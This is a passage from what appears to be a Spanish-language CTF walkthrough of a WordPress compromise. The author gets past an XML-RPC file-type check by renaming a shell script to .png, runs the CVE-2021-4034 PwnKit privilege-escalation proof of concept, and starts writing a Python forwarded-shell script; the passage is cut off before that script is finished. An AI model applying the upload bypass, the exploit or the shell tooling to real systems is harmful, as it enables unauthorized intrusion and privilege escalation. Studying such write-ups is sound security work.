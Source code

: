 ```python
  File "/usr/lib/python3.9/xmlrpc/client.py", line 1348, in parse_response
    return u.close()
  File "/usr/lib/python3.9/xmlrpc/client.py", line 662, in close
    raise Fault(**self._stack[0])
xmlrpc.client.Fault: <Fault 500: 'Could not write file pkwner.sh (Sorry, you are not allowed to upload this file type.).'>
```
En este caso no nos deja subir el archivo con esa extensión, procedmeos a cambiarla por png

```python
>>> client.call(media.UploadFile(uplodad_file))
{'attachment_id': '53', 'date_created_gmt': <DateTime '20230309T02:00:21' at 0x7fc033b61460>, 'parent': 0, 'link': '/wp-content/uploads/2023/03/pkwner.png', 'title': 'pkwner.png', 'caption': '', 'description': '', 'metadata': False, 'type': 'text/plain', 'thumbnail': '/wp-content/uploads/2023/03/pkwner.png', 'id': '53', 'file': 'pkwner.png', 'url': '/wp-content/uploads/2023/03/pkwner.png'}
```
Al revisar la ruta que nos propocionamos vemos que el archivo se subió correctamente y procedemos a ejecutarlo.

```shell
ls wp-content/uploads/2023/03
pkwner.png

bash -c ./wp-content/uploads/2023/03/pkwner.png
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment...
[+] Build offensive gconv shared module...
[+] Build mini executor...
hello[+] Nice Job
```
Al final se ejecuta bien nuestro comando. Para que sea más cómodo nos crearemos un script en python pára hacer una forwarded shell y tener mejor control en el sistema.

```python
#!/usr/bin/python3
import requests, sys, time, threading, pdb, signal
from base64 import b64encode
from random import randrange

class AllTheReads(object):

    def __init__(self, interval = 1):
        
        self.interval = interval

        thread = threading.Thread(target=self.run, args=())
        thread.daemon = True
        thread.start()

    def run(self):
        clearOutput = 'echo "" > %s' % stdout
        readOutput = '/bin/cat %s' % stdout

        while True:
            output = runCmd(readOutput)
            if output:
                runCmd(clearOutput)
                print(output)
            time.sleep(self.interval)
```